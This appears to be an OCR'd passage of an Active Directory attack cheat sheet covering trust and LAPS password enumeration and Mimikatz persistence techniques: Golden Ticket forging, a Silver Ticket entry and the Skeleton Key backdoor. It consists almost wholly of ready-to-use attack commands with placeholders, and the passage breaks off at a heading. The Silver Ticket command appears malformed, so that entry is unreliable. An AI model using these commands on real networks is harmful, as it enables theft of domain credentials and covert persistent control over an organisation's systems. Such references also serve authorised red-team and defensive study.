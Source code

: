 
#### 1.11 Enumerate AD Trusts 

- **PowerView**:
    
    ```powershell
    Get-NetDomainTrust
    ```
    

#### 1.12 Enumerate LAPS (Local Administrator Password Solution) 

- **Get-LAPS**:
    
    ```powershell
    Get-ADComputer -Filter * -Property ms-Mcs-AdmPwd
    ```
    

# 2. Initial Access 

# 3. Persistence 

#### 3.1 Golden Ticket Attack 

- **Mimikatz**:
    
    ```powershell
    kerberos::golden /user:<username> /domain:<domain> /sid:<domain_SID> /krbtgt:<NTLM_hash> /id:<user_id>
    ```
    

#### 3.2 Silver Ticket Attack 

- **Mimikatz**:
    
    ```powershell
    tgt::deleg /domain:<domain> /sid:<SID> /target:<target_server> /rc4:<NTLM hash> /user:<username> /service:krbtgt
    ```
    

#### 3.3 Skeleton Key Attack 

- **Mimikatz**:
    
    ```powershell
    privilege::debug
    misc::skeleton
    ```
    

#### 3.4 Backdooring User Accounts 
